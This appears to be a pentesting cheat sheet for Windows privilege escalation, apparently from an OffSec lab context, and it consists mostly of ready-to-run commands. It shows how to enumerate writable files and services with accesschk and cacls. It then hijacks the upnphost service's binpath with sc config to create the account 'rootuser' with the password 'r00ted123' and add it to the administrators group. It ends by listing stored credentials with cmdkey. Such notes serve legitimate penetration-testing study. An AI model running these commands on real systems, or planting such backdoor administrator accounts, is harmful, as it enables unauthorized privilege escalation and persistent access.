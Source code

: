 Runas Account command:

```
runas /user:offsec-labs\low cmd.exe
```

Add user to local group:

```
accesschk.exe -uwqs users c:\*.*
```

```
accesschk.exe -uwqs “Authenticated Users” c:\*.*
```

```
cacls "c:\Program Files" /T | findstr Users
```

Find weak service permissions:

```
accesschk.exe -uwcqv *
```

Accesschk.exe for Windows XP:

[https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe)

Accesschk.exe commands to find read/write services:

```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula - This command worked for XP
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\
```

If you found a vulnerable RW service from using accesschk:

```
sc config upnphost binpath= "net user rootuser r00ted123 /add"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
```

Then proceed with restarting the service to execute the binpath command and add new user to administrators group:

```
sc start upnphost
sc config upnphost binpath= "net localgroup administrators rootuser /add"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
sc start upnphost
```

Check for stored credentials:

```
cmdkey /list
```
